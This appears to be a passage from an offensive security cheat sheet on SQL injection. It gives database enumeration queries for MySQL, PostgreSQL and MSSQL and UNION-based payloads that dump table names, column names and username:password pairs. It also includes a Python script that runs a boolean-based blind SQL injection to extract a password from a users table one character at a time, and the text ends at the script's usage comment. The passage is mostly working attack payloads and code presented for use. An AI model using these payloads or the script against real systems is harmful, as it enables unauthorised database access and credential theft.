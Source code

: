 
##### **Advanced SQLi Techniques**

**Database Enumeration:**

```sql
-- MySQL
SELECT @@version
SELECT database()
SELECT user()

-- PostgreSQL
SELECT version()
SELECT current_database()
SELECT current_user

-- MSSQL
SELECT @@version
SELECT DB_NAME()
SELECT USER_NAME()

```

**Data Extraction:**

```sql
-- Extract table names (MySQL)
UNION SELECT table_name, null FROM information_schema.tables--

-- Extract column names
UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'--

-- Dump data
UNION SELECT concat(username,':',password), null FROM users--

```

##### **SQLi Automation Script**

```python
#!/usr/bin/env python3
import requests
import string

# Blind SQLi data extraction
def extract_data(url, param):
    extracted = ""
    charset = string.ascii_letters + string.digits + "!@#$%^&*()_+"

    for position in range(1, 50):
        for char in charset:
            # Boolean-based blind SQLi
            payload = f"' AND SUBSTRING((SELECT password FROM users LIMIT 1), {position}, 1)='{char}'--"

            response = requests.get(url, params={param: payload})

            if "Welcome" in response.text:  # Adjust based on true condition
                extracted += char
                print(f"[+] Found: {extracted}")
                break
        else:
            break

    return extracted

# Usage
```
